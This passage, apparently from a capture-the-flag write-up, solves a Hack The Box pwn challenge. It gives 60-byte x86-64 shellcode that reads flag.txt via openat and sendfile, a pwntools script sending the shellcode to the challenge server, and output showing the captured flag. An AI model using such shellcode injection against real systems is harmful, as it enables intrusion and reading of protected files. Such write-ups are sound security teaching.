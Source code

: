 ```C
    return;
}
```

also the shellcode needs to fits in 60 bytes.

I went with the obvious combo ```openat```+```sendfile```:
```nasm
; % nasm -felf64 -o getflag.o getflag.asm
; % ld -o getflag getflag.o    


        global _start

_start:
        xor rdx, rdx        ; flags
        mov rdi, 0xffffff9c ; AT_FDCWD
        lea rsi, [rel buf]  ; path
        mov rax, 257        ; openat
        syscall

        xor rdi, rdi        ; out fd // 0
        mov rsi, rax        ; out fd // from openat result
        xor rdx, rdx        ; offset // 0
        mov r10, 255        ; size
        mov rax, 40         ; sendfile
        syscall

buf:    db 'flag.txt', 0
```

and the final exploit:
```python
from pwn import *


shellcode = b'\x48\x31\xd2\xbf\x9c\xff\xff\xff\x48\x8d\x35\x1d\x00\x00\x00\xb8\x01\x01\x00\x00\x0f\x05\x48\x31\xff\x48\x89\xc6\x48\x31\xd2\x41\xba\xff\x00\x00\x00\xb8\x28\x00\x00\x00\x0f\x05\x66\x6c\x61\x67\x2e\x74\x78\x74\x00'

io = remote("157.245.47.33", 31234)
#io = process("./fleet_management")
io.recvuntil(b'What do you want to do? ')

io.sendline(b"9")
io.sendline(shellcode)
print(io.recv(1024))
```

```
% python xpl.py
[+] Opening connection to 157.245.47.33 on port 31234: Done
b'HTB{backd00r_as_a_f3atur3}\n'
[*] Closed connection to 157.245.47.33 port 31234
```
